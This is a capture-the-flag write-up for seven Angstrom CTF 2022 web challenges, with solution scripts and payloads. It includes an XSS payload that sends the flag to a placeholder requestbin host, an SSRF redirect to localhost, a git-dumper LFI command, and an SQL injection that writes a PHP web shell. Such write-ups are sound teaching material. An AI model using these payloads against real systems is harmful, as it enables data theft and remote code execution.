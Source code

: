 # Angstrom CTF 2022 - Web
--------------------------

## 1- Auth-Skip
#### about :
- Type: web 
- Level: easy
- Points : 50

<center><img src="../images/auth-skip.png"></center>

Easy challenges, just login with cookie user : admin and you get the flag

```python
import requests

URL = 'https://auth-skip.web.actf.co/'

cookies = {'user':'admin'}

r = requests.get(URL, cookies=cookies)
print(r.text)
```

**actf{passwordless_authentication_is_the_new_hip_thing}**

## 2- crumbs
#### about :
- Type: web 
- Level: easy
- Points : 50


<center><img src="../images/crumbs.png"></center>

if we look at teh source code : 

```js
const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

const paths = {};
let curr = crypto.randomUUID();
let first = curr;

for (let i = 0; i < 1000; ++i) {
    paths[curr] = crypto.randomUUID();
    curr = paths[curr];
}

paths[curr] = "flag";

app.use(express.urlencoded({ extended: false }));

app.get("/:slug", (req, res) => {
    if (paths[req.params.slug] === "flag") {
        res.status(200).type("text/plain").send(flag);
    } else if (paths[req.params.slug]) {
        res.status(200)
            .type("text/plain")
            .send(`Go to ${paths[req.params.slug]}`);
    } else {
        res.status(200).type("text/plain").send("Broke the trail of crumbs...");
    }
});
```
it seems like a serie of random slugs ,we need to keep sending the slug we received in another requests on the same **session** , my code : 
```python
import requests as rq 
s= rq.Session()
rs = s.get("https://crumbs.web.actf.co" , verify=True)
while True : 
    print(rs.text)
    rs = s.get("https://crumbs.web.actf.co/"+rs.text[6:] , verify=True)
```

## 3- Xtra Salty Sardins   
#### about :
- Type:  web
- Level: medium 
- Points : 70

<center><img src="../images/sardins.png"></center>

As the name says , it is an XSS vulnerabilty , we just need to bypass some checks , the final payload is : 

```html
<script><script>fetch(`/flag`).then(r=>r.text()).then(t=>fetch(`https://[YOUR_REQUESTBIN]?cc=`+btoa(t)))</script>
```

**actf{those_sardines_are_yummy_yummy_in_my_tummy}**


## 4- Art Gallery
#### about :
- Type: web 
- Level: medium
- Points : 130

<center><img src="../images/art-gallery.png"></center>

this one consist of a local file inclusion, and we try too get the **.git** folder, I used git-dump `git-dumper https://art-gallery.web.actf.co/gallery?member=../.git/ outpu -r 4` 

and checking logs I found the flag

<center><img src="../images/ag-poc.png"></center>

## 5- School Unblocker
#### about :
- Type: web 
- Level: medium
- Points : 130

<center><img src="../images/school.png"></center>

It's a website thet gets you the content of any url , so we try to get the /flag , using a Redirect requests 

in our server : 
```php
<?php
header("Location: http://localhost:8080/flag",true,307);
?>
```
and we send a request 
```python
import requests

URL = 'https://school-unblocker.web.actf.co/proxy'
data = {"url":"http://SERVER"} 

r = requests.post(URL, data=data)
print(r.text)
```

## 6- Secue Vault
#### about :
- Type: web 
- Level: hard
- Points : 130

<center><img src="../images/vault.png"></center>

solution code : 
```python
import requests

URL = 'https://secure-vault.web.actf.co'

def register(username,password):
    data = {"username":username,"password":password}
    req = requests.post(URL+'/register', data=data,allow_redirects=False)
    return req.cookies['token']

def deleteToken(token):
    cookies = {'token':token}
    req = requests.post(URL+'/delete',cookies=cookies)

def getFlag(token):
    cookies = {'token':token}
    req = requests.get(URL+'/vault',cookies=cookies)
    return r.text

if __name__ == '__main__':
    token = register("aynkl","admin")
    deleteToken(token)
    print(getFlag(token))
```

## 7- No Flags?
#### about :
- Type: web 
- Level: hard
- Points : 130

<center><img src="../images/noflag.png"></center>

an obvious sql injection but teh flag isn't in a databases , we will try to escalate to an RCE , with ATTACH in sqlite  , the payload is as follows : 

```html
web');ATTACH DATABASE '/var/www/html/abyss/web1.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?php system($_GET["cmd"]);?>
```

then we try to visite the : https://no-flags.web.actf.co/abyss/web1.php?cmd=/printflag;

**actf{why_do_people_still_use_php}**